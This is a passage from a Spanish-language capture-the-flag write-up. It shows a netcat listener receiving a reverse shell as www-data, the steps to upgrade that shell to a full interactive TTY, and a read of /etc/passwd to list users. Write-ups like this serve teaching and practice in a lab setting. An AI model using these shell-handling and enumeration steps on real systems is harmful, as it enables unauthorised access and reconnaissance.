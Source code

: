 Nos ponemos en escucha

```bash
nc -nlvp 1234
```

![nc.png](/assets/images/hj-writeup-blogger/nc.png)

Una vez hecho sucede la magia y conseguimos acceso a la maquina como el usuario www-data

![access.png](/assets/images/hj-writeup-blogger/access.png)

Realizamos un tratamiento de la TTY para poder tener una shell estable y full interactiva.

```bash
script -c bash /dev/null
ctrl + z
stty raw -echo; fg (para traer el proceso de nuevo)
reset xterm
export TERM=xterm
export SHELL=bash

#Le damos las proporciones adecuadas en mi caso 37 filas y 184 columnas
stty rows 37 columns 184

#Listo con esto ya tenemos una shell totalmente interactiva

```

Realizamos un cat al /etc/passwd para ver que usuarios tenemos disponibles

```bash
cat /etc/passwd
```
